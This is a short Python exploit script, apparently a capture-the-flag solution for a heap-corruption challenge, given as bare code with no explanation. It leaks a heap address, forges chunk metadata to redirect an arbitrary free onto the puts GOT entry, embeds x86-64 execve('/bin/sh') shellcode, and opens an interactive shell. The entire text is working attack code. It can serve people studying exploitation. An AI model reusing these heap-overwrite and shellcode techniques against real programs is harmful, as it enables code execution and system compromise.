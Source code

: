 ```python

# Leak top chunk
leave(8, 'A'*4)
change(0, 60, 'A'*40)
view(0)
r.recvuntil('A'*40)
x = r.recvline()[:-1]
heap = u64(x + '\x00'*(8-len(x))) - 0x18
log.info('heap : {}'.format(hex(heap)))

# Repair the heap struct
payload = 'A'*8 + p64(0)*2 + p64(0x3d0) + p64(0) + p64(heap+0x18)
change(0, 60, payload)

# Make another chunk and use overflow to make arbitratary free
sc = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
leave(8, 'B'*4)
payload = 'A'*8
payload += p64(0)*2 + p64(0x31) + p64(heap+0xa8) + p64(puts_got-8)
payload += 'B'*8 + p64(0)*2 + p64(0x3a0) + p64(0) + p64(heap+0x48)
payload += p64(0)*3 + '\xeb\x16' +'\x00'*6 + p64(0)*2 + sc
change(0, len(payload)+4, payload)
remove(1)

r.interactive()
```

